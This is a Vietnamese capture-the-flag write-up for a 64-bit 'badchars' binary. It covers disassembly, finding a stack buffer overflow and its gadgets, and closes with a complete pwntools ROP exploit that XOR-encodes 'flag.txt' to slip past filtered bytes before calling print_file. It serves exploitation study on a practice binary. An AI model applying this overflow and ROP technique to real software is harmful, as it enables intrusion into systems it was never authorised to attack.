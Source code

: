 **1. Tìm lỗi**

Chạy thử chương trình ta được:

![run.png](photo/run.png)

Chương trình cho phép nhập vào một chuỗi và kết thúc ngay sau đó

Sử dụng lệnh checksec để kiểm tra

![checksec.png](photo/checksec.png)

Ta có CANARY đang ở trạng thái disabled nên có thể khai thác qua lỗi bof

Dùng lệnh file kiểm tra

![file.png](photo/file.png)

Ta thấy là file elf 64bit -> Mở bằng ida64 ta có

![main.png](photo/main.png)

Hàm pwnme:

```
   0x00007ffff7dc58fa <+0>:     push   rbp
   0x00007ffff7dc58fb <+1>:     mov    rbp,rsp
   0x00007ffff7dc58fe <+4>:     sub    rsp,0x40
   0x00007ffff7dc5902 <+8>:     mov    rax,QWORD PTR [rip+0x2006cf]        # 0x7ffff7fc5fd8
   0x00007ffff7dc5909 <+15>:    mov    rax,QWORD PTR [rax]
   0x00007ffff7dc590c <+18>:    mov    ecx,0x0
   0x00007ffff7dc5911 <+23>:    mov    edx,0x2
   0x00007ffff7dc5916 <+28>:    mov    esi,0x0
   0x00007ffff7dc591b <+33>:    mov    rdi,rax
   0x00007ffff7dc591e <+36>:    call   0x7ffff7dc57e0 <setvbuf@plt>
   0x00007ffff7dc5923 <+41>:    lea    rdi,[rip+0x17a]        # 0x7ffff7dc5aa4
   0x00007ffff7dc592a <+48>:    call   0x7ffff7dc5780 <puts@plt>
   0x00007ffff7dc592f <+53>:    lea    rdi,[rip+0x187]        # 0x7ffff7dc5abd
   0x00007ffff7dc5936 <+60>:    call   0x7ffff7dc5780 <puts@plt>
   0x00007ffff7dc593b <+65>:    lea    rax,[rbp-0x40]
   0x00007ffff7dc593f <+69>:    add    rax,0x20
   0x00007ffff7dc5943 <+73>:    mov    edx,0x20
   0x00007ffff7dc5948 <+78>:    mov    esi,0x0
   0x00007ffff7dc594d <+83>:    mov    rdi,rax
   0x00007ffff7dc5950 <+86>:    call   0x7ffff7dc57b0 <memset@plt>
   0x00007ffff7dc5955 <+91>:    lea    rdi,[rip+0x16c]        # 0x7ffff7dc5ac8
   0x00007ffff7dc595c <+98>:    call   0x7ffff7dc5780 <puts@plt>
   0x00007ffff7dc5961 <+103>:   lea    rdi,[rip+0x181]        # 0x7ffff7dc5ae9
   0x00007ffff7dc5968 <+110>:   mov    eax,0x0
   0x00007ffff7dc596d <+115>:   call   0x7ffff7dc57a0 <printf@plt>
   0x00007ffff7dc5972 <+120>:   lea    rax,[rbp-0x40]
   0x00007ffff7dc5976 <+124>:   add    rax,0x20
   0x00007ffff7dc597a <+128>:   mov    edx,0x200
   0x00007ffff7dc597f <+133>:   mov    rsi,rax
   0x00007ffff7dc5982 <+136>:   mov    edi,0x0
   0x00007ffff7dc5987 <+141>:   call   0x7ffff7dc57c0 <read@plt>
   0x00007ffff7dc598c <+146>:   mov    QWORD PTR [rbp-0x40],rax
   0x00007ffff7dc5990 <+150>:   mov    QWORD PTR [rbp-0x38],0x0
   0x00007ffff7dc5998 <+158>:   jmp    0x7ffff7dc59eb <pwnme+241>
   0x00007ffff7dc599a <+160>:   mov    QWORD PTR [rbp-0x30],0x0
   0x00007ffff7dc59a2 <+168>:   jmp    0x7ffff7dc59d5 <pwnme+219>
   0x00007ffff7dc59a4 <+170>:   mov    rax,QWORD PTR [rbp-0x38]
   0x00007ffff7dc59a8 <+174>:   movzx  ecx,BYTE PTR [rbp+rax*1-0x20]
   0x00007ffff7dc59ad <+179>:   mov    rax,QWORD PTR [rbp-0x30]
   0x00007ffff7dc59b1 <+183>:   mov    rdx,QWORD PTR [rip+0x200628]        # 0x7ffff7fc5fe0
   0x00007ffff7dc59b8 <+190>:   movzx  eax,BYTE PTR [rdx+rax*1]
   0x00007ffff7dc59bc <+194>:   cmp    cl,al
   0x00007ffff7dc59be <+196>:   jne    0x7ffff7dc59c9 <pwnme+207>
   0x00007ffff7dc59c0 <+198>:   mov    rax,QWORD PTR [rbp-0x38]
   0x00007ffff7dc59c4 <+202>:   mov    BYTE PTR [rbp+rax*1-0x20],0xeb
   0x00007ffff7dc59c9 <+207>:   mov    rax,QWORD PTR [rbp-0x30]
   0x00007ffff7dc59cd <+211>:   add    rax,0x1
   0x00007ffff7dc59d1 <+215>:   mov    QWORD PTR [rbp-0x30],rax
   0x00007ffff7dc59d5 <+219>:   mov    rax,QWORD PTR [rbp-0x30]
   0x00007ffff7dc59d9 <+223>:   cmp    rax,0x3
   0x00007ffff7dc59dd <+227>:   jbe    0x7ffff7dc59a4 <pwnme+170>
   0x00007ffff7dc59df <+229>:   mov    rax,QWORD PTR [rbp-0x38]
   0x00007ffff7dc59e3 <+233>:   add    rax,0x1
   0x00007ffff7dc59e7 <+237>:   mov    QWORD PTR [rbp-0x38],rax
   0x00007ffff7dc59eb <+241>:   mov    rdx,QWORD PTR [rbp-0x38]
   0x00007ffff7dc59ef <+245>:   mov    rax,QWORD PTR [rbp-0x40]
   0x00007ffff7dc59f3 <+249>:   cmp    rdx,rax
   0x00007ffff7dc59f6 <+252>:   jb     0x7ffff7dc599a <pwnme+160>
   0x00007ffff7dc59f8 <+254>:   lea    rdi,[rip+0xed]        # 0x7ffff7dc5aec
   0x00007ffff7dc59ff <+261>:   call   0x7ffff7dc5780 <puts@plt>
   0x00007ffff7dc5a04 <+266>:   nop
   0x00007ffff7dc5a05 <+267>:   leave
   0x00007ffff7dc5a06 <+268>:   ret
   ```

Ta thấy khoảng cách từ biến cho nhập đến ret là 0x20 + 0x8 = 40 nhưng chương trình cho phép nhập 0x200 = 512 byte nên có thể nhập tràn từ biến đến ret

Hàm usefulFunction:

![use.png](photo/use.png)

Hàm print_file:

![print_file.png](photo/print_file.png)

Ta thấy ở hàm print_file khi truyền chuỗi tên file vào rdi thì hàm sẽ in nội dụng của file ra nên chúng ta có thể truyền chuỗi flag.txt vào để lấy giá trị flag

Hàm usefulGadgets:

![gad.png](photo/gad.png)

Ở hàm này địa chỉ 0x0000000000400634 chứa câu lệnh mov [r13], r12 nên có thể tận dụng để truyền chuỗi flag.txt vào r13 rồi truyền qua rdx

Để gán dữ liệu vào r13 và r12 thì chúng ta cần pop chúng ra:

![pop_r12.png](photo/pop_r12.png)

Ở địa chỉ 0x000000000040069c đã có câu lệnh pop luôn cả r12 và r13

**2. Ý tưởng**

Ở ngay lúc chạy chương trình đã có báo các ký tự xấu là x, g, a, ., mà chuỗi flag.txt lại có 4 cả nên không thể truyền trực tiếp vào được.

Theo gợi ý của bài thì chúng ta có thể thay đổi chuỗi flag.txt thành giá trị khác để vượt qua được badchar rồi trả lại chuỗi flag.txt và gán vào thanh ghi

Vậy ta có thứ tự thực hiện như sau:

- Truyền chuỗi đã vượt qua được badchars vào thanh ghi r12, r13

- Dùng hàm tạo riêng để trở về chuỗi flag.txt rồi gán vào r14

- Truyền dữ liệu vào print_file qua thanh ghi rdi

**3. Viết script**

Tìm địa chỉ còn trống để lưu chuỗi vào

![vmmap.png](photo/vmmap.png)

Ta có địa chỉ 0x601030 còn trống nên có thể ghi vào

Ta có script như sau:

```
from pwn import *

r = process("./badchars")

def ascii2hex(value):
    result = ""
    for i in value:
        result += hex(ord(i))[2:]
    return result

def doiVe0x(value):
    length = len(value)
    result = "0x"
    for i in range(length-1, 0, -2):
        result += value[i-1] + value[i]
    return result

def process(value):
    return int(doiVe0x(ascii2hex(value)), 16)

def processBadchar(value):
    result = ""
    for i in value:
        result += chr(int(ascii2hex(i), 16) ^ 2)
    return process(result)


pop_r12 = 0x000000000040069c
r12 = processBadchar("flag.txt")
r13 = 0x601030
mov_r13_r12 = 0x400634
xor_r14_r15 = 0x400628
pop_r14 = 0x00000000004006a0
pop_rdi = 0x00000000004006a3
print_file = 0x0000000000400620

payload = b'a'*40
payload += p64(pop_r12)
payload += p64(r12) + p64(r13) + p64(0) + p64(0)
payload += p64(mov_r13_r12)

for i in range(8):
    payload += p64(pop_r14)
    payload += p64(2) + p64(r13 + i)
    payload += p64(xor_r14_r15)

payload += p64(pop_rdi)
payload += p64(r13)
payload += p64(print_file)

r.sendafter('> ', payload)
r.interactive()
```

**4. Lấy flag**

![flag.png](photo/flag.png)
